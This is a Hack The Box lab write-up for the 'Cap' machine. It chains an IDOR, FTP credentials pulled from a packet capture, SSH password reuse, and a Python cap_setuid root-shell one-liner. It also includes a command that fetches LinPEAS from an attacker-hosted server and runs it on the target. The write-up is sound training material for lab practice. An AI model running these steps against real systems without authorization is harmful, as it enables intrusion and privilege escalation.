








# CAP

**Platform:** Hack The Box
**Difficulty:** Easy
**Completed:** 29 June 2026
**Machine:** [CAP LINK](https://app.hackthebox.com/machines/Cap)

---

# 📋 Summary

**Cap** is an Easy Linux machine that demonstrates several real-world penetration testing concepts, including **Insecure Direct Object Reference (IDOR)**, **packet analysis**, **credential reuse**, and **Linux capability abuse**.

The machine hosts a web-based security dashboard that allows users to download packet captures. Due to improper access controls, an attacker can access another user's capture, recover credentials transmitted over FTP, and use them to gain an initial foothold. Finally, a misconfigured Linux capability is abused to escalate privileges to **root**.

---

# 🎯 Objectives

* Enumerate the target system and identify exposed services.
* Discover vulnerabilities in the web application.
* Recover credentials from captured network traffic.
* Obtain user access through SSH.
* Enumerate the system for privilege escalation vectors.
* Escalate privileges and obtain root access.

---

# Methodology

The assessment followed a standard penetration testing workflow:

1. Reconnaissance
2. Web Enumeration
3. Initial Foothold
4. Privilege Escalation
5. Root Access

---

# 🔍 Reconnaissance

## Nmap Service Enumeration

The first step in any penetration test is to identify the services exposed by the target. Knowing which ports are open helps determine the available attack surface and guides further enumeration.

A version and default script scan was performed using Nmap.

```bash
nmap -sC -sV 10.129.42.227
```

### Results


The scan revealed three accessible services:

* **FTP (21)** – File Transfer Protocol
* **SSH (22)** – Secure Shell for remote administration
* **HTTP (80)** – A web application hosted using Gunicorn

Since the HTTP service is usually the largest attack surface, it became the primary focus of the assessment.

---

# 🌐 Web Enumeration

Visiting the web server presents a **Security Dashboard** where the user is already authenticated as **Nathan**.

The dashboard appears to provide administrative functions related to system monitoring.


While exploring the available features, the **Security Snapshot** page allows users to download packet capture (`.pcap`) files.


Packet captures often contain valuable information such as usernames, passwords, session cookies, or other sensitive network traffic, making them an excellent target for further investigation.

---

# Initial Foothold

## Discovering an IDOR

Inspecting the URL reveals that each packet capture is referenced using a numeric identifier in the URL.


This is a classic indicator of a potential **Insecure Direct Object Reference (IDOR)** vulnerability.

Instead of validating whether the logged-in user is authorized to access a specific capture, the application appears to rely solely on the object ID.

To verify this assumption, several snapshot IDs were tested.

One particular file, **ID 0**, was significantly larger than the others.

A larger packet capture generally indicates more recorded traffic, increasing the likelihood of finding sensitive information.

The capture was therefore downloaded for offline analysis.


---

## Packet Analysis

The downloaded capture was opened using **Wireshark**.

Based on the earlier Nmap scan, both **FTP** and **SSH** services were exposed. FTP is an unencrypted protocol, meaning usernames and passwords are transmitted in plaintext.

For this reason, the packet capture was filtered to display only FTP traffic.

The FTP conversation revealed valid credentials belonging to the user **nathan**.



---

## Testing the Credentials

The recovered credentials were first tested against the FTP service.

````bash
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.42.227      
Connected to 10.129.42.227.
220 (vsFTPd 3.0.3)
Name (10.129.42.227:kali): nathan
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed

````

Although the credentials were visible in the capture, FTP login was no longer permitted.

However, password reuse is a common real-world security issue, so the same credentials were tested against the SSH service.

```bash
ssh nathan@10.129.42.227
```


The login was successful.

After gaining SSH access, the user flag can be retrieved by  listing the contents of the directory to locate the flag file:

```bash
ls
```

Once the flag file (typically named `user.txt`) is identified, its contents can be displayed using:

```bash
cat user.txt

```

This provided an initial foothold on the machine with **user-level privileges**.

At this stage, the objective shifted from gaining access to **escalating privileges**.

---

# 🚀 Privilege Escalation

## System Enumeration

Once user access was obtained, the next step was to identify possible privilege escalation vectors.

Rather than manually inspecting hundreds of system configurations, **LinPEAS** was used to automate the enumeration process.

LinPEAS checks for common Linux misconfigurations including:

* Dangerous file permissions
* SUID binaries
* Linux capabilities
* Writable directories
* Scheduled tasks
* Environment variables
* Running services

Since direct download using `curl` was unsuccessful, the script was downloaded locally and hosted using a simple Python HTTP server.

On the attacker machine:

```bash
mkdir pve
cd pve

wget https://github.com/peass-ng/PEASS-ng/releases/download/20241011-2e37ba11/linpeas.sh

python3 -m http.server 80
```

On the target machine:

```bash
wget http://<ATTACKER-IP>/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```

The script completed successfully and produced several findings.

---

## Interesting Finding

Among the results, one entry immediately stood out.

LinPEAS reported that **Python 3.8** possessed the **cap_setuid** Linux capability.



Normally, only privileged processes can change their user ID.

The **cap_setuid** capability allows a process to switch its effective user ID without requiring the SUID bit.

If assigned to an interpreter such as Python, this capability can often be abused to execute commands as the **root** user.

This became the primary privilege escalation vector.

---

## Researching the Exploit

Whenever an unusual privilege escalation vector is discovered, [**GTFOBins**](https://gtfobins.org) is an excellent resource for identifying practical exploitation techniques.


GTFOBins maintains a collection of legitimate Unix binaries that can be abused under specific conditions, including SUID, sudo, and Linux capabilities.

Searching for **Python → Capabilities** provided the required privilege escalation technique.


---

## Exploiting the Capability

The GTFOBins example was slightly modified to match the installed Python version.

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```


### Why this works

* `os.setuid(0)` changes the effective user ID to **0**, which represents the root user.
* Because the Python interpreter already possesses the **cap_setuid** capability, the operating system allows this action.
* `os.system("/bin/sh")` then launches a shell running with root privileges.

The exploit successfully spawned a root shell.

Finally, the contents of the root directory were accessed and the root flag was retrieved.


---

# Attack Chain

```text
Nmap Enumeration
        │
        ▼
Security Dashboard
        │
        ▼
IDOR Vulnerability
        │
        ▼
Download Packet Capture
        │
        ▼
Wireshark Analysis
        │
        ▼
Recover FTP Credentials
        │
        ▼
Credential Reuse
        │
        ▼
SSH Access
        │
        ▼
LinPEAS Enumeration
        │
        ▼
Python cap_setuid Capability
        │
        ▼
Root Shell
```

---

# Key Takeaways

* Sensitive administrative functions should always implement proper authorization checks to prevent **IDOR** vulnerabilities.
* FTP transmits credentials in plaintext and should be replaced with secure alternatives such as SFTP or SSH.
* Password reuse across services significantly increases the impact of credential disclosure.
* Automated enumeration tools such as LinPEAS can quickly identify privilege escalation opportunities.
* Misconfigured Linux capabilities can be just as dangerous as improperly configured SUID binaries and should be audited regularly.

